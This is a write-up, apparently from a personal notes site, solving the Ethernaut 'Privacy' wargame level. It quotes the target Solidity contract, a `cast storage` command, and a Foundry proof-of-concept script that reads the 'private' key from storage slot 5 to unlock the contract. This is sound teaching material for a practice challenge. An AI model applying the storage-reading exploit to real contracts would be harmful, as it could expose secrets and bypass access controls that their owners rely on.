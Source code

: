 ```yaml
---
title: "Privacy"
date: "2024-02-10"
lastmod: "2024-02-12T14:46:00.000Z"
draft: false
difficulty: "⭐⭐⭐"
prev: "Elevator-59c41c694afa45c68e603000da840a2e"
weight: 12
state: "En cours"
level-url: "https://ethernaut.openzeppelin.com/level/12"
next: "Gatekeeper-One-9bbda6efa6c24367aa643eb73ae92a6a"
type: "docs"
NOTION_METADATA:
  object: "page"
  id: "0141c599-3182-4d74-a831-1099eb338d5d"
  created_time: "2024-02-12T13:39:00.000Z"
  last_edited_time: "2024-02-12T14:46:00.000Z"
  created_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  last_edited_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  cover: null
  icon:
    type: "external"
    external:
      url: "https://ethernaut.openzeppelin.com/imgs/BigLevel12.svg"
  parent:
    type: "database_id"
    database_id: "cb6853ff-d731-4d6a-9080-6c8efeec5b1c"
  archived: false
  properties:
    difficulty:
      id: "IAjo"
      type: "select"
      select:
        id: "aa1cb61f-428e-4dc4-abad-06b3092cb0ce"
        name: "⭐⭐⭐"
        color: "green"
    prev:
      id: "LLP%5C"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Elevator-59c41c694afa45c68e603000da840a2e"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Elevator-59c41c694afa45c68e603000da840a2e"
          href: null
    date:
      id: "Y%40Gy"
      type: "date"
      date:
        start: "2024-02-10"
        end: null
        time_zone: null
    weight:
      id: "%5Dyda"
      type: "number"
      number: 12
    state:
      id: "f%40ps"
      type: "status"
      status:
        id: "e1f6ef4b-49ae-427f-9bb4-8736089f3aa2"
        name: "En cours"
        color: "blue"
    level-url:
      id: "juZs"
      type: "url"
      url: "https://ethernaut.openzeppelin.com/level/12"
    next:
      id: "pocA"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Gatekeeper-One-9bbda6efa6c24367aa643eb73ae92a6a"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Gatekeeper-One-9bbda6efa6c24367aa643eb73ae92a6a"
          href: null
    type:
      id: "s%7DKc"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "docs"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "docs"
          href: null
    title:
      id: "title"
      type: "title"
      title:
        - type: "text"
          text:
            content: "Privacy"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Privacy"
          href: null
  url: "https://www.notion.so/Privacy-0141c59931824d74a8311099eb338d5d"
  public_url: null
UPDATE_TIME: "2024-02-14T13:36:05.329Z"

---
```

<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/katex@0.16.2/dist/katex.min.css" integrity="sha384-bYdxxUwYipFNohQlHt0bjN/LCpueqWz13HufFEV1SUatKs1cm4L6fFgCi1jT643X" crossorigin="anonymous">


title: Privacy
weight: 13
type: docs
prev: elevator
next: gatekeeper-one


[Level12](https://ethernaut.openzeppelin.com/level/12) - ⭐⭐⭐


---


The creator of this contract was careful enough to protect the sensitive areas of its storage.


Unlock this contract to beat the level.


Things that might help:

- Understanding how storage works
- Understanding how parameter parsing works
- Understanding how casting works

Tips:

- Remember that metamask is just a commodity. Use another tool if it
is presenting problems. Advanced gameplay could involve using remix, or
your own web3 provider.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Privacy {

  bool public locked = true; // slot 0
  uint256 public ID = block.timestamp; // slot 1
  uint8 private flattening = 10; // slot 2
  uint8 private denomination = 255; // slot 2
  uint16 private awkwardness = uint16(block.timestamp); // slot 2
  bytes32[3] private data; // [slot3, slot4, slot5]

  constructor(bytes32[3] memory _data) {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }

  /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
  */
}
```


for more details on storage layout read this article:


[bookmark](https://docs.alchemy.com/docs/smart-contract-storage-layout)


So, the `_key` is stored at slot 5 since it is `data[2]`:


```solidity
➜  ~/repos/ethernaut (main) cast storage --rpc-url $SEPOLIA_RPC_URL $INSTANCE_12 5
0xe32410e9fbc1f17b0f1d9a6ed141317f11c4b2a5d38981dfa025aacf8b708d7d
```


Solution:


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";

import {Privacy} from "../src/12.sol";


contract POC is Script {
    function run() external {
        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address addr = vm.envAddress("INSTANCE_12");

        vm.startBroadcast(deployerPrivateKey);

        Privacy privacy = Privacy(addr);
        console.log('isLocked : %s', privacy.locked());
				
				// vm.load() allows us to read arbitrary storage slot
        bytes16 key = bytes16(vm.load(address(privacy), bytes32(uint(5))));
        privacy.unlock(key);
        
        console.log('isLocked : %s', privacy.locked());

        vm.stopBroadcast();

    }
}
```


Nothing
 in the ethereum blockchain is private. The keyword private is merely an
 artificial construct of the Solidity language. Web3's `getStorageAt(...)`
 can be used to read anything from storage. It can be tricky to read 
what you want though, since several optimization rules and techniques 
are used to compact the storage as much as possible.


It can't get much more complicated than what was exposed in this level. For more, check out this excellent article by "Darius": [How to read Ethereum contract storage](https://medium.com/aigang-network/how-to-read-ethereum-contract-storage-44252c8af925)


More info:


[bookmark](https://medium.com/@0xZorz/how-to-read-dynamic-arrays-directly-from-storage-using-foundry-bdf5a104b8f6)

